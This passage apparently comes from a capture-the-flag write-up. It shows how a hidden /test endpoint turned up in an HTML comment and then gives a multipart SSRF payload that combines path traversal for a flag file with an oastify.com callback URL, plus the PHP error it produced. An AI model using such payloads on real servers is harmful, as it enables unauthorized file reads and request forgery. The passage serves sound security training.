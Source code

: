 ```html
<div class="hidden sm:ml-6 sm:block">
    <div class="flex space-x-4">
        <a href="/" class="rounded-md bg-red-700 px-3 py-2 text-sm font-medium text-white hover:bg-red-500 hover:scale-110">Home</a>
        <a href="/login" class="rounded-md bg-red-700 px-3 py-2 text-sm font-medium text-white hover:bg-red-500 hover:scale-110">Dashboard</a>
        <a href="/info" class="rounded-md bg-red-700 px-3 py-2 text-sm font-medium text-white hover:bg-red-500 hover:scale-110">Info</a>
        <!-- note: should not be accessable -->
        <!-- <a href="/test" class="rounded-md px-3 py-2 text-sm font-medium text-gray-300 hover:bg-gray-700 hover:text-white">Test</a> -->
    </div>
</div>
```

This revealed the existence of a `/test` endpoint that was hidden from the main navigation.

## Exploring the /test Endpoint

Accessing the `/test` endpoint revealed functionality that appeared to be some kind of API caller or request handler. Through testing and experimentation, we discovered we could send multipart form data with specific parameters.

## Initial Exploitation Attempt

Our first attempt involved trying to exploit what appeared to be a Server-Side Request Forgery (SSRF) vulnerability. We crafted a request with the following payload:

```
------WebKitFormBoundaryr5p1zI5sws0O9r7B
Content-Disposition: form-data; name="userid"

@/tmp/../flag.txt
------WebKitFormBoundaryr5p1zI5sws0O9r7B
Content-Disposition: form-data; name="method"

../login    
------WebKitFormBoundaryr5p1zI5sws0O9r7B
Content-Disposition: form-data; name="parameters"

$this->url=http://e3ijv6uyn2zgtrtxwpevakr7xy3prlfa.oastify.com
------WebKitFormBoundaryr5p1zI5sws0O9r7B--
```

This generated an interesting error message that revealed internal application structure:

```
Fatal error: Uncaught Exception: URL using bad/illegal format or missing URL in /var/www/html/modules/apicaller.php:45
Stack trace:
#0 /var/www/html/test/index.php(16): APICaller->__call('../login    ', Array, $this->url: 'http://e3ijv6uy...')
#1 {main}
  thrown in /var/www/html/modules/apicaller.php on line 45
```
